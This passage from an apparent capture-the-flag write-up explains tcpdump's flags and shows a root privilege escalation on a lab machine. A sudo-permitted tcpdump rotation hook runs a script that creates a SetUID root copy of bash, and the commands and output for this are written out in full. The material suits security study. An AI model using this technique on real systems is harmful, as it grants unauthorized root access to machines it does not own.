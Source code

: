That worked.

To look at bit more at what it’s doing:
- `-l` - Make STDOUT line buffered. It seems like perhaps the output might come to STDOUT, but I didn’t get that.
- `-n` - Don’t convert addresses to names.
- `-i lo` - Capture on the localhost interface.
- `-w /dev/null` - Save capture to `/dev/null` (throw it away).
- `-W 1 -G 1` - “Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit.” So rotate every second and exit after one file.
- `-z $TF` - Run the `$TF` script on rotation.
- `-Z root` - Run as the root user.

Basically it’s going to force a log rotation and then trigger the command as the post rotation script. It’s not surprising that the output doesn’t print to STDOUT.

#### Shell

To get a shell, I’ll have `tcpdump` create a copy of `bash` and set it as SetUID / SetGID to run as root:

```

james@strutted:~$ COMMAND='cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel

```

It works:

```

james@strutted:~$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1396520 Jan 26 21:44 /tmp/0xdf
james@strutted:~$ /tmp/0xdf -p
0xdf-5.1#

```

I’ll grab `root.txt`:

```

0xdf-5.1# cat root.txt
f44bc153************************

```
